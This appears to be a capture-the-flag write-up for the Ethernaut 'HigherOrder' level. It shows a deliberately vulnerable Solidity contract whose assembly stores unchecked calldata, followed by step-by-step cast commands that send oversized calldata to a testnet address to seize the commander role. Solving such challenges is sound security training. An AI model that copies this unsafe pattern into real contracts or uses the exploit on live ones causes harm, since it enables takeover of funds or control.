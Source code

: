 ```yaml
---
title: "HigherOrder"
tags: ["calldata"]
reference: https://ethernaut.openzeppelin.com/level/30
---
```


# Description

Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.

Your objective is to become the Commander of the Higher Order! Good luck!

Things that might help:

Sometimes, calldata cannot be trusted.
Compilers are constantly evolving into better spaceships.

```sol
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

# Understand the assembly opcodes

- sstore: save word(32 bytes) to storage
- calldataload(4): read calldata after function selector

# Attack

1. craft the "correct" calldata

```
cast calldata "registerTreasury(uint8)" 0xff
0x211c85ab00000000000000000000000000000000000000000000000000000000000000ff
```

2. call `registerTreasury` function where passing an argument > 1 byte

```
cast send 0x32D15928B8185Aeb2E8E0E793C3f0fa85Aa9F23A 0x211c85ab0000000000000000000000000000000000000000000000000000000000ffffff --rpc-url $BASE_SEPOLIA_RPC --private-key $KEY
```

3. check if `treasury` variable is > 255

```
cast storage 0x32D15928B8185Aeb2E8E0E793C3f0fa85Aa9F23A 1 --rpc-url $BASE_SEPOLIA_RPC
0x0000000000000000000000000000000000000000000000000000000000ffffff
```

4. claim leadership

```
> cast send 0x32D15928B8185Aeb2E8E0E793C3f0fa85Aa9F23A "claimLeadership()" --rpc-url $BASE_SEPOLIA_RPC --private-key $KEY
> cast storage 0x32D15928B8185Aeb2E8E0E793C3f0fa85Aa9F23A 0 --rpc-url $BASE_SEPOLIA_RPC
0x000000000000000000000000b1473ba227c4645501e0e05f4839b00ed8320d33 // player address
```
